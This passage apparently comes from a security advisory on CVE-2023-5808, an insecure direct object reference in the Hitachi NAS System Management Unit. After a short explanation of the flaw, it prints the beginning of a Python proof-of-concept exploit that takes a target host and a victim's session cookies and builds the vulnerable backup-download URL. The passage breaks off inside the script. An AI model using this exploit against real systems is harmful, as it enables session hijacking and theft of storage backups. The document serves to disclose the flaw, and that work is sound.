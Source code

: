 However, due to an oversight in `SMU`'s business logic, an attacker with 
access to a `Storage Administrator`, `Server Administrator` or 
`Server + Storage Administrator` account can update the `JSESSIONID` and 
`JSESSIONIDSSO` cookies to match the cookies of the user that they are in 
possession of, allowing them to download the backup archive.

Thus, a script like `CVE-2023-5808.py` could be used to exploit this 
vulnerability:

```python
#!/usr/bin/python3
#
# Title:            Hitachi NAS (HNAS) System Management Unit (SMU) Backup & Restore IDOR Vulnerability 
# CVE:              CVE-2023-5808
# Date:             2023-12-13
# Exploit Author:   Arslan Masood (@arszilla)
# Vendor:           https://www.hitachivantara.com/
# Version:          < 14.8.7825.01
# Tested On:        13.9.7021.04        

import argparse
from datetime import datetime
from os import getcwd

import requests

parser = argparse.ArgumentParser(
    description="CVE-2023-5808 PoC",
    usage="./CVE-2023-5808.py --host <Hostname/FQDN/IP> --id <JSESSIONID> --sso <JSESSIONIDSSO>"
    )

# Create --host argument:
parser.add_argument(
    "--host",
    required=True,
    type=str,
    help="Hostname/FQDN/IP Address. Provide the port, if necessary, i.e. 127.0.0.1:8443, example.com:8443"
    )

# Create --id argument:
parser.add_argument(
    "--id",
    required=True,
    type=str,
    help="JSESSIONID cookie value"
    )

# Create --sso argument:
parser.add_argument(
    "--sso",
    required=True,
    type=str,
    help="JSESSIONIDSSO cookie value"
    )

args = parser.parse_args()

def download_file(hostname, jsessionid, jsessionidsso):
    # Set the filename:
    filename = f"smu_backup-{datetime.now().strftime('%Y-%m-%d_%H%M')}.zip"

    # Vulnerable SMU URL:
    smu_url = f"https://{hostname}/mgr/app/template/simple%2CBackupSmuScreen.vm/password/"
```